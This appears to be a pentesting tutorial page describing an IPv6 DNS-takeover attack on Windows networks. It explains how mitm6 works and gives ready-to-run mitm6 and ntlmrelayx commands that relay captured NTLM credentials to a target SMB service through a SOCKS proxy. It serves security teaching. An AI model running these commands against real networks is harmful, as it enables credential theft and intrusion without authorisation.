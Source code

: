 - - <a href="https://blog.vonahi.io/taking-over-ipv6-networks/" style="color:bluesky">__vonahi__

#### Special Thanks to S4vitar

- - <a href="https://youtu.be/-bNb4hwgkCo?t=2530" style="color:bluesky">__S4vitar Channel__

---

> For this attack we will use `proxychains`, `crackmapexec`, `ntlmrelayx` and `mitm6`.

- - <a href="https://github.com/byt3bl33d3r/CrackMapExec" style="color:bluesky">__crackmapexec__

- - <a href="https://github.com/dirkjanm/mitm6" style="color:bluesky">__mitm6__

- - <a href="https://github.com/haad/proxychains" style="color:bluesky">__proxychains__

- - <a href="https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py" style="color:bluesky">__ntlmrelayx__

---

> Many people thought that removing IPV4 would solve everything, but the reality is that no, `IPV6` also exists and also has its ways of being exploited.

> mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server. As DNS server, mitm6 will selectively reply to DNS queries of the attackers choosing and redirect the victims traffic to the attacker machine instead of the legitimate server. For a full explanation of the attack, see our blog about mitm6. Mitm6 is designed to work together with ntlmrelayx from impacket for WPAD spoofing and credential relaying.

---

> The use of mitm6 is simple, we just have to provide the domain with the `-d` flag

```
mitm6 -d domain.local
```

> Combine mitm6 with ntlmrelayx to authenticate to the victim smb service.

```
impacket-ntlmrelayx -6 -wh <your ip> -t smb://<target ip> -socks -debug -smb2support
```

```
-6 / Listen on both IPv6 and IPv4

-wh / Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied.

-socks / Launch a SOCKS proxy for the connection relayed

-debug / Turn DEBUG output ON
```

> Before continuing, let's change the default port in proxychain to 1080.

```
sudo nano /etc/proxychains.conf
```
